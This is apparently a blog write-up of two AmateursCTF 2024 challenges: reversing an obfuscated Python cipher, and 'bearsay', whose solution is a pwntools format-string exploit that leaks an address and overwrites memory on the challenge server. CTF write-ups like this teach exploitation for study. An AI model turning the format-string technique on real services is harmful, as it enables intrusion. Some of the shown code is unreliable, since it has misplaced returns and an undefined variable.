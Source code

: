 ```yaml
---
title: "AmateursCTF_2024 Writeups"
date: 2024-04-12T12:01:23+07:00
draft: false
lightgallery: true

tags: ["rev"]
categories: ["reverse"]

math:
  enable: true
toc:
  enable: true
---
```


Writeup for rev challenge in the event.

<!--more-->
## Overview
First time writing writeup hehe.

## typo
{{< admonition note "Challenge Information" >}}
* **Given file:** `mian.py`, `output.txt`
* **Description:** can you make sure i didn't make a typo?
{{< /admonition >}}

We are given a Python source with many obfuscated names, but upon closer inspection we notice that they are all simple encryption method that can be easily decrypted.

After renaming the variables a bit we got:

```Python
import random as RrRrRrrrRrRRrrRRrRRrrRr
seed = int('1665663c', 20)
RrRrRrrrRrRRrrRRrRRrrRr.seed(seed)
flag = bytearray(open('flag.txt', 'rb').read())
key_str = '\r'r'\r''r''\\r'r'\\r\r'r'r''r''\\r'r'r\r'r'r\\r''r'r'r''r''\\r'r'\\r\r'r'r''r''\\r'r'rr\r''\r''r''r\\'r'\r''\r''r\\\r'r'r\r''\rr'
key_array = [
    b'arRRrrRRrRRrRRrRr',
    b'aRrRrrRRrRr',
    b'arRRrrRRrRRrRr',
    b'arRRrRrRRrRr',
    b'arRRrRRrRrrRRrRR'
    b'arRRrrRRrRRRrRRrRr',
    b'arRRrrRRrRRRrRr',
    b'arRRrrRRrRRRrRr'
    b'arRrRrRrRRRrrRrrrR',
]
func_plusone = lambda param: bytearray([ele + 1 for ele in param])
func_minusone = lambda param: bytearray([ele - 1 for ele in param])

def func_swap(hex):
    for id in range(0, len(hex) - 1, 2):
        hex[id], hex[id + 1] = hex[id + 1], hex[id]
    for list in range(1, len(hex) - 1, 2):
        hex[list], hex[list + 1] = hex[list + 1], hex[list]
return hex

func_list = [func_swap, func_plusone, func_minusone]
func_list = [RrRrRrrrRrRRrrRRrRRrrRr.choice(func_list) for arRrrrRRrRRrRRRrRrRrrRr in range(128)]

def execute_func(arr, ar):
    for r in ar:
        arr = func_list[r](arr)
return arr

def func_add(arr, ar):
    ar = int(ar.hex(), 17)
    for r in arr:
        ar += int(r, 35)
return bytes.fromhex(hex(ar)[2:])

ciphertext = execute_func(flag, key_str.encode())
ciphertext = func_add(key_array, ciphertext)
print(ciphertext.hex())
```

We are also provided with the cipher text from the output.txt
ciphertext = `5915f8ba06db0a50aa2f3eee4baef82e70be1a9ac80cb59e5b9cb15a15a7f7246604a5e456ad5324167411480f893f97e3`

From the bottom up, we first subtract the cipher text with the keyarray base 35, we get the new ciphertext = `3510160288463215651882012568783508204641122149206037501475580951860016882936528922912211607208113004344284877774206570`

But here is the catch, notice that the ciphertext now is the result of integer base 17 conversion, so we need to revert it back to a base 17 bytearray, this is not complicated, but sure is very troublesome, luckily we can threw it in an online decoder so that we can get result instead of decode it manually (a good online decoder can be found here: [CyberChef](https://gchq.github.io/CyberChef/) ).

<img src="typo_1.png" alt="" width="1000"/>

And the rest can be decrypt fairly easily.

```Python
def rev_func_swap(hex):
    for id in range(1, len(hex) - 1, 2):
        hex[id], hex[id + 1] = hex[id + 1], hex[id]
    for list in range(0, len(hex) - 1, 2):
        hex[list], hex[list + 1] = hex[list + 1], hex[list]
    return hex

rev_func_list = [rev_func_swap, func_minusone, func_plusone]
rev_func_list = [RrRrRrrrRrRRrrRRrRRrrRr.choice(rev_func_list) for arRrrrRRrRRrRRRrRrRrrRr in range(128)]

def execute_func(arr, ar):
    for r in ar:
        arr = rev_func_list[r](arr)
    return arr
cipher_text = 0x486f67686960685561685568552559536660375b3a5d28625353275d676753595c6029275a712858536067602b646167
cipher_text = bytes.fromhex(hex(cipher_text)[2:])
cipher_text = bytearray(cipher_text)
print(cipher_text)
index_array = [i for i in index_array.encode()]
index_array.reverse()
flag = execute_func(cipher_text, index_array)
print(flag)
```

**amateursCTF{4t_l3ast_th15_fl4g_isn7_misspelll3d}**

## bearsay

```Python
from pwn import *

elf = context.binary = ELF('./chall')
p = process()
p = remote('chal.amt.rs', 1338)
# gdb.attach(p, gdbscript='b*main', api=True) 

p.sendlineafter(b'say: ', b'%15$p')
p.recvline()

bss_is_mother = int(p.recvline().split()[1], 16) + 0x29cc
val = 0xBAD0BAD
payload = fmtstr_payload(22, {bss_is_mother: val}, write_size='int')
p.recvuntil(b'say: ')
print(len(payload))
print(payload)
assert len(payload) < 4096
p.sendline(payload)

p.recvuntil(b'say: ')
p.sendline( b'flag')
p.interactive()
```

**amateursCTF{bearsay_mooooooooooooooooooo?}**